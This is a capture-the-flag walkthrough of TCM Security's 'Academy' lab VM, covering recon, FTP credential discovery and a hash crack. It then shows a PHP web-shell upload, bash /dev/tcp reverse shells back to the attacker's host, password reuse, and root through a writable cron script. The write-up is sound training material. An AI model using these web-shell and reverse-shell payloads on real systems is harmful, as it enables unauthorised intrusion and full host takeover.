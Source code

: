 # TCM Security - Academy
> Writeup for Academy machine challenge from PEH course of TCM Security

Challenge File: https://drive.google.com/drive/folders/1VXEuyySgzsSo-MYmyCareTnJ5rAeVKeH

---------------

<br>

Run `sudo netdiscover -r 192.168.0.0/24` before starting the target VM to capture all available devices in subnet \
now start the target VM and wait for new machine IP entry it will be the IP of our target VM.

Before starting the target VM 

![image](https://github.com/Aftab700/Writeups/assets/79740895/264f4aa5-62fd-47d0-bb51-88a1fe8211e7)

After starting the target VM 

![image](https://github.com/Aftab700/Writeups/assets/79740895/48ec1846-d9e4-4f40-a996-91b68db451f8)


Now that we have the target IP `192.168.0.113` let's run the `nmap`

<details><summary markdown="span">Click to see nmap result :diamond_shape_with_a_dot_inside: </summary>

```bash                                                                                                           
┌──(Jack㉿Sparrow)-[~/Downloads]
└─$  nmap -sC -sV -T5 192.168.0.113 -oA nmap_Academy.txt -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-02 13:58 EST
Warning: 192.168.0.113 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.0.113
Host is up (0.0050s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.0.207
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open     ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c744588690fde4de5b0dbf078d055dd7 (RSA)
|   256 78ec470f0f53aaa6054884809476a623 (ECDSA)
|_  256 999c3911dd3553a0291120c7f8bf71a4 (ED25519)
80/tcp   open     http          Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
1046/tcp filtered wfremotertm
1055/tcp filtered ansyslmd
1434/tcp filtered ms-sql-m
2038/tcp filtered objectmanager
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.39 seconds
```
</details>


Here we see that port `21,22,80` are open. 

In port 21 Anonymous FTP login is allowed  \
to see what files are present in this ftp we can open `ftp://192.168.0.113/` in windows File Explorer or we can also use curl

![image](https://github.com/Aftab700/Writeups/assets/79740895/94033cfd-6173-49d2-bc31-18b3621d137f)

![image](https://github.com/Aftab700/Writeups/assets/79740895/8028de5e-668e-4123-8aef-42e27cb07c85)


The note says `The StudentRegno number is what you use for login` which is `10201321` and
we have one password hash `cd73502828457d15655bbd7a63fb0bc8`. use tools like https://crackstation.net/ to crack the hash. \
This is md5 of `student`. \
now we have login credentials `10201321:student` note this for now and let's move to http site.

<br>

`http://192.168.0.113/` is Apache2 Debian Default Page

![image](https://github.com/Aftab700/Writeups/assets/79740895/d0094763-f520-4028-a338-0aca0d6cb604)


There is nothing much to see in this default page so let's do the directory brute force

<details><summary markdown="span">Click to see dirsearch result :diamond_shape_with_a_dot_inside: </summary>

```bash
┌──(Jack㉿Sparrow)-[~]
└─$ dirsearch -u http://192.168.0.113/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )
                                                                                                                                                                                                                                            
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 141672

Output File: /home/kali/.dirsearch/reports/192.168.0.113/-_24-02-04_03-17-49.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-02-04_03-17-49.log

Target: http://192.168.0.113/

[03:17:49] Starting: 
[03:18:19] 301 -  319B  - /phpmyadmin  ->  http://192.168.0.113/phpmyadmin/
[03:19:57] 301 -  316B  - /academy  ->  http://192.168.0.113/academy/       
                                                                              
Task Completed
```

</details>

We found the `/phpmyadmin/` and `/academy/` directories

on the `http://192.168.0.113/academy/` page we have one login form

![image](https://github.com/Aftab700/Writeups/assets/79740895/8dcd96ba-f63a-4524-9ea6-95156c8ce0df)


Let's try the login login credentials `10201321:student` that we found previously from ftp note.

![image](https://github.com/Aftab700/Writeups/assets/79740895/a36b56d4-987e-4e97-834f-f1f0fc105bf4)


It worked we are now logged in

On the My Profile page we have file upload functionality

try uploading simple php shell `<?php system($_REQUEST['cmd']); ?>` and it is not blocked we now have the ability to execute commands on server

![image](https://github.com/Aftab700/Writeups/assets/79740895/08e0c9d1-2522-4e8a-9fc3-4a19c13bc969)


we can get reverse shell by this payload `cmd=bash+-c+"bash+-i+>%26+/dev/tcp/192.168.0.207/9001+0>%261"` \
reference: https://www.revshells.com

![image](https://github.com/Aftab700/Writeups/assets/79740895/4dc9b13a-e0a3-4ff4-82fd-5a32fb2b0270)

![image](https://github.com/Aftab700/Writeups/assets/79740895/4cf54a48-a797-4c62-ae47-f0e3a7fa91a5)


In the config.php file we have the mysql_password `My_V3ryS3cur3_P4ss` and in the ftp note we show line `I told him not to use the same password everywhere` which implies 
that user Grimmie is reusing the same password so we can try to use this password to switch to user Grimmie

![image](https://github.com/Aftab700/Writeups/assets/79740895/a6efd8be-7132-4ee9-86b2-b44bcb917ba6)


looking at crontab we notice that `/home/grimmie/backup.sh` file is running as root and we can modify this file to get root access

![image](https://github.com/Aftab700/Writeups/assets/79740895/ee82ccab-380c-485d-855c-247e8e2e7dcc)


Reverse shell payload to get shell as root: 

`echo 'bash -c "bash -i >& /dev/tcp/192.168.0.207/9002 0>&1"' > backup.sh`

![image](https://github.com/Aftab700/Writeups/assets/79740895/0c2c4b55-7951-4637-ab07-86077b1ce395)

![image](https://github.com/Aftab700/Writeups/assets/79740895/b1a801aa-7b03-4d4d-849a-6a7532c95b22)


Flag:

![image](https://github.com/Aftab700/Writeups/assets/79740895/50dbf9b2-9236-4656-95ff-e7747b222a6c)

<br>

:octocat: Happy Hacking :octocat:
